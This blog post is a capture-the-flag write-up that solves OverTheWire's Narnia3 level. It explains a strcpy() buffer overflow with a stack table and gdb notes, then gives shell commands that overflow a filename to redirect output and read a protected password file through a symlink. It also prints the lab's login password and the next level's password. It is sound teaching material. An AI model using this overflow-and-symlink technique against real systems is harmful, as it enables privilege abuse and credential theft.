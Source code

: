 ```yaml
---
layout: post
title:  "Narnia Level 3"
date:   2015-10-12 12:52
categories: narnia wargame pwnable overthewire python c
author: Leander
---
```


This is a solution guide to the Narnia3 Level at [overthewire](http://overthewire.org/wargames/narnia/). This write-up was created on 12 October 2015.

<strong>Challenge Description:</strong> Narnia3 requires the attacker to take advantage of a <em>strcpy()</em> vulnerability which does not have any bounds checking. Since the <em>strcpy()</em> is executed blindly it creates a situation where the user can overwrite the buffer affecting all the variables in main. 
<!--break-->

First connect to the lab
<ul><li>ssh narnia3@narnia.labs.overthewire.org</li>
<li>Enter the following as the password vaequeezee</li></ul>

Change directories to the narnia games folder: `cd /narnia`. Next, let's examine how we get the password for the next level: `less narnia3.c`

{% highlight c linenos %}
int main(int argc, char **argv){
 
 int  ifd,  ofd;
 char ofile[16] = "/dev/null";
 char ifile[32];
 char buf[32];
 
 if(argc != 2){
  printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
  exit(-1);
 }
 
/* open files */
 strcpy(ifile, argv[1]);
 if((ofd = open(ofile,O_RDWR)) < 0 ){
  printf("error opening %s\n", ofile);
  exit(-1);
 }
 if((ifd = open(ifile, O_RDONLY)) < 0 ){
  printf("error opening %s\n", ifile);
  exit(-1);
 }
 
/* copy from file1 to file2 */
 read(ifd, buf, sizeof(buf)-1);
 write(ofd,buf, sizeof(buf)-1);
 printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);
 
/* close 'em */
 close(ifd);
 close(ofd);
 
 exit(1);
}
{% endhighlight %}

This is an interesting problem because the program accepts a command line argument and then does a <em>strcpy()</em> of <em>argv[1]</em> on line 14. When we check the man pages for <em>strcpy()</em> we find, "The  strcpy()  function copies the string pointed to by src, including the terminating null byte ('\0'), to the buffer  pointed  to  by  dest." We also find at the end of the man page a specific bug (shortcut is shift+gg):

<figure class="highlight"><pre><code class="language-text" data-lang="text">BUGS
 If the destination string of a strcpy() is not large enough, then  any-
 thing  might  happen.   Overflowing  fixed-length  string  buffers is a
 favorite cracker technique for taking complete control of the  machine.
 Any  time  a  program  reads  or copies data into a buffer, the program
 first needs to check that there's enough space.  This may  be  unneces-
 sary  if you can show that overflow is impossible, but be careful: pro-
 grams can get changed over time, in ways that may make  the  impossible
 possible.</code></pre></figure>
 
Great so now we know we have another buffer overflow, and you can find more information about buffer overflows at [exploit-db](https://www.exploit-db.com/papers/13207/). So knowing this information we now know that <em>strcpy()</em> will take everything it finds in <em>argv[1]</em> until it reaches a null character, but the buffer for ifile is only 32 bytes. If our <em>argv[1]</em> were longer than 32 bytes it would overflow into something, but now the question is:

* What is the something that <em>argv[1]</em> overuns?
* Can we take advantage of the buffer overrun and make it do something unintended?

First, lets make some files. Since we know that the buffer needs to be overrun by 32 bytes we need to name a file something that is larger than 32 bytes. After the file is created we can test our theory with:

{% highlight bash linenos %}
python -c 'print(len("/tmp/" + "a"*27))' #verify our temp folder is long enough
mkdir -p $(python -c 'print ("/tmp/" + "a"*27 + "/tmp")') #create the directory
cd $(python -c 'print ("/tmp/" + "a"*27 + "/tmp")') #change to the directory
/narnia/narnia3 `pwd`/abc #test theory
{% endhighlight %}

![Test Theory](/images/narnia03_first_test.png)

This creates a directory in the tmp folder [^1] called aaaaaaaaaaaaaaaaaaaaaaaaaaa. The screenshot tells us that we are either overunning the ifile or the ofile, because it notified us of an error that it couldn't open "/abc", but did not provide us the entire directory we tried to open. Let's examine which we are overrunning with `objdump -d -M intel /narnia/narnia3`

First, I'm going to build a visual image of what the stack looks like.[^2] Our variables are declared in this order ifd, ofd, ofile[16], ifile[32], and buf[32]. Beginning at 0x8048523 the stack expands by 112 bytes. Which means the bytes are reserved as follows: bottom 4 bytes[^3] are ifd, followed by 4 bytes ofd, 16 bytes for ofile, 32 bytes for ifile, and 32 bytes for buff. This is a total of 88 bytes - the remainder of the bytes are used for local variables.

<p><table width="100%">
<tr>
      <th width="25%">Stack</th>
      <th width="15%">Register Info</th>
      <th width="60%">Notes</th>
</tr>
<tr>
      <td>int ifd</td>
      <td>esp+108</td>
      <td>4-byte integer in file descriptor</td>
</tr>
<tr>
      <td>int ofd</td>
      <td>esp+104</td>
      <td>4-byte integer out file descriptor</td>
</tr>
<tr>
      <td>0<br>
      l<br>
      /nul<br>
      /dev</br></td>
      <td>esp+100<br>
      esp+96<br>
      esp+92<br>
      esp+88</td>
      <td>This is where ofile[16] is located. We can determine this because ofile is 16 bytes and is statically assigned /dev/null in line 4 of the source code.</td>
</tr>
<tr>
      <td>char ifile[32]</td>
      <td>esp+84<br>
      ...<br>
      esp+56</br></td>
      <td>ifile is located here and encompasses 32 bytes, ending at esp+84.</td>
</tr>
<tr>
      <td>char buff[32]</td>
      <td>esp+52<br>
      ...<br>
      esp+24</br></td>
      <td>buff[32] is located here and encompasses 32 bytes, ending at esp+52.</td>
</tr>
<tr>
      <td>local variables</td>
      <td>esp+20<br>
      ...<br>
      esp+0</br></td>
      <td>There is space reserved for several local variables. These local variables established for passing arguments to C standard library functions such as <em>read</em>, <em>open</em>, and <em>strcpy</em>.</td>
</tr>
</table><br/></p>

Confirm the view of the stack by observing is at a designated breakpoint - 0x8048546[^4]. It doesn't look like text, but that is because we are viewing all hexidecimal values. We can type a simple command in order to see the known string in the stack as shown.

![gdb stack view at breakpoint](/images/narnia03_gdb_stack_view.png)

Beginning at 0x8048526 the character string /dev/null for ofile is placed onto the top of the stack at esp+58. The next interesting point is around 0x8048579 where a strcpy operation takes arg[0] and copies it into ifile. If we reference our stack table now we can see what is happened to our input earlier, because the "abc" overflowed into the ofile!

![objdump screenshot with intel syntax](/images/narnia03_objdump_screenshot.png)

Now it's time to craft our input to take advantage of this vulnerability. The general idea is that we are going to use two file names with the same name to pass as arguments to ifile and ofile. We will take advantage of the write function which was previously writing to /dev/null and make it write something else instead. Which if we create a symbollically linked file as our input we can read the key.

{% highlight bash linenos %}
python -c 'print(len("/tmp/" + "a"*27))' #verify our temp folder is long enough
mkdir -p $(python -c 'print ("/tmp/" + "a"*27 + "/tmp")') #create the directory
cd $(python -c 'print ("/tmp/" + "a"*27 + "/tmp")') #change to the directory
ln -s /etc/narnia_pass/narnia4 abc #create the symbollically linked file
touch /tmp/abc #create our temp file for the key
chmod 777 /tmp/abc #where the key will be written
/narnia/narnia3 `pwd`/abc #test our solution
cat /tmp/abc #read key
{% endhighlight %}

BINGO! level 4 password is ```thaenohtai```

<h3>Footnotes:</h3>
[^1]: I use the tmp folder because that is the one of the few globally write/read folders in the linux system from which I don't need a specific user's access privileages to use. This allows me to create folders inside /tmp which will be owned by myself and then still be able to read other folders or files inside the tmp directory, provided I know the file or directory name.
[^2]: The numbers I reference are different than what is in the screenshot because I am using decimal instead of hexadecimal number references. It is only a matter of preference and is easier for me to read.
[^3]: How do I know it's 4 bytes for the variable? Well an integer value has a maximum value of 4,294,967,296. Which factors into a value of 2^32, and last 32 bits / 8, because 8 bits are in a byte, = 4 bytes.
[^4]: First you have to make sure you have a readable file, next you need to open the file using gdb: ```gdb ./narnia3 test```. Next set a breakpoint: ```b *0x8048546``` and then type ```run```. Last, examine the stack with the following command: ```x /40xw $esp```. If you need to learn more about gdb check out [this cheat sheet](http://darkdust.net/files/GDB%20Cheat%20Sheet.pdf).
